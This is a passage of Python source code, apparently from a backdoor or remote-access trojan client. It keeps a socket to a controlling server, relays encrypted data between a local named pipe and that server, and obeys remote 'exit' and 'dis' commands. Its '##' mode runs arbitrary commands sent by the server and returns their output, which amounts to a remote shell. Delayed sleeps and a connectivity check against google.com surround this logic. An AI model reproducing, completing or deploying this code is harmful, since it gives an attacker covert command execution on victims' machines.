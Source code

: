 ```python
                res = recv(5, True)
            if "ice" in res:
                break
        except Exception as e:
            sleep(183)

def is_connected():
    if not online():
        return False
    try:
        sock.send(b'\x00')
        return True
    except:
        return False
def online():
    try:
        socket.setdefaulttimeout(260)
        socket.socket(socket.AF_INET, socket.SOCK_STREAM).connect(("google.com", 80))
        return True
    except Exception as exp:
        return False
def file_ready():
    open(pipe_out + ".ready", "w+").write('1')
def waiting_file():
    count = 1000
    while open(pipe_out + ".ready", "r").read() != '0' and count > 0:
        sleep(0.5)
        count -= 1
def communicate():
    global wanted
    aff = Affine()
    try:
        d = open(pipe_out, "rb").read()
        if len(d) == 0:
            d = "EMPTY"
        else:
            d = aff.decrypt(d)
        sock.send(d.encode())
        res = recv(4028, True)
        it = open(pipe_out, "wb")
        if res.rstrip() == "exit":
            wanted = False
        elif res.rstrip() == "dis":
            it.close()
            sys.exit(0)
        elif res.rstrip() == "##":
            while res.rstrip() != "exit":
                res = recv(4028, True)
                sock.send(run_cmd(res.rstrip()).encode())
            return
        it.truncate(0)
        res = aff.encrypt(res)
        it.write(res)
        it.close()
        file_ready()
    except ConnectionResetError:
        sock.close()
    except Exception as e:
        if is_connected():
            sock.send("An error has occurred: {}".format(str(e)).encode())
def main():
    sleep(83)
    while wanted:
```